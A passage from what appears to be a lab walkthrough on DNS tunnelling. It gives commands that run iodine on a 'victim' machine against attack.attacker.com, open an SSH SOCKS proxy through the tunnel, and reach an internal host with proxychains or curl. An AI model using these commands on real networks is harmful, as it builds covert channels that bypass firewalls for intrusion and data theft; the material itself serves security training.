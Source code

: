 2. On Victim machine, run the iodine client to establish the connection. (note for the client side we use iodine - without **d)** `On the victim machine` We need to connect to the server-side application

```
sudo iodine -P dnstunneling attack.attacker.com
```

3. SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding. `On the attacker machine` We use the -D argument for the dynamic port forwarding feature to use the SSH session as a proxy. Note that we used the -f argument to enforce ssh to go to the background. The -4 argument forces the ssh client to bind on IPv4 only

```
ssh thm@10.1.1.2 -4 -f -N -D 1080
```

5. Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains. `On the attacker machine`

```
root@attacker$ proxychains curl http://192.168.0.100/test.php 
```

OR

```
root@attacker$ #OR root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php
```
